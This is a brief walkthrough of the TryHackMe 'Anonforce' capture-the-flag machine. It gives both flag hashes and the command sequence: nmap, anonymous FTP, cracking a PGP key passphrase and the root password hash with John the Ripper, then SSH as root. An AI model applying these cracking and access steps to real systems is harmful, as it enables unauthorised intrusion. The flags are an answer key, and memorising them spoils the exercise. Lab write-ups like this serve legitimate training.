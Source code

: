 # <div align="center">[Anonforce](https://tryhackme.com/r/room/bsidesgtanonforce)</div>
<div align="center">boot2root machine for FIT and bsides guatemala CTF</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b2bd9f6b-8995-402a-8e54-2c5596bc16cc" height="200"></img>
</div>

## Task 1. Anonforce Machine

Read user.txt and root.txt
### User.txt
```
606083fd33beb1284fc51f411a706af8
```
* ```nmap -sC -sV <IP>```
* ```ftp <IP>```
* ```cd home/melodias```
* ```get user.txt```
* ```cat user.txt```

### Root.txt
```
f706456440c7af4187810c31c6cebdce
```
* ```ls /notread```
* ```gpg --import private.asc```
* ```/data/src/john/run/gpg2john private.asc > pgp.hash```
* ```john pgp.hash --wordlist=/data/src/wordlists/rockyou.txt```
* ```# xbox360          (anonforce)* ```
* ```gpg --import private.asc```
* ```gpg --decrypt backup.pgp```
* ```john backup --wordlist=/data/src/wordlists/rockyou.txt```
* ```root: hikari```
* ```ssh root@<IP>```
* ```cat root.txt```
